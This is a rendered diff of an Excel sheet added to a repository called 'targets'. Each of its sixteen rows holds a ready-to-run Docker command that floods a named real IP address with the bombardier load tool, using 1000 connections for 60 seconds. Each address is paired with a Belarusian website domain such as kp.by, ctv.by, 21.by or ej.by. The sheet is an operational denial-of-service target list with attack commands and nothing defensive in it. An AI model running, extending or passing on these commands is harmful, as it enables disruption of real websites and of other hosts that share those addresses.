

Before and after one commit to dmitryshagin/targets, an Excel workbook: test.xlsx, sheet Sheet1, drawn as a sheet; only a part is shown; the shorter side is filled out with more unchanged rows; values as stored, in another font and other column widths than the file's, no borders; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Add files via upload

```diff
--- a/test.xlsx (sheet Sheet1)
+++ b/test.xlsx (sheet Sheet1)
+row 1: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 93.84.119.236&& sleep 5; | 93.84.119.236 | kp.by
+row 2: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 193.232.92.25&& sleep 5; | 193.232.92.25 | kp.by
+row 3: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 37.17.56.12&& sleep 5; | 37.17.56.12 | kp.by
+row 4: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 178.124.138.155&& sleep 5; | 178.124.138.155 | ctv.by
+row 5: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 212.98.164.233&& sleep 5; | 212.98.164.233 | ctv.by
+row 6: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 178.124.138.154&& sleep 5; | 178.124.138.154 | ctv.by
+row 7: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 178.124.138.24&& sleep 5; | 178.124.138.24 | ctv.by
+row 8: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 138.68.75.50&& sleep 5; | 138.68.75.50 | 21.by
+row 9: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 172.253.115.26&& sleep 5; | 172.253.115.26 | 21.by
+row 10: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 64.233.184.27&& sleep 5; | 64.233.184.27 | 21.by
+row 11: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 64.233.184.26&& sleep 5; | 64.233.184.26 | 21.by
+row 12: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 209.85.202.27&& sleep 5; | 209.85.202.27 | 21.by
+row 13: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 209.85.202.26&& sleep 5; | 209.85.202.26 | 21.by
+row 14: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 193.0.170.23&& sleep 5; | 193.0.170.23 | 21.by
+row 15: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 173.245.59.194&& sleep 5; | 173.245.59.194 | ej.by
+row 16: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 108.162.192.107&& sleep 5; | 108.162.192.107 | ej.by
```
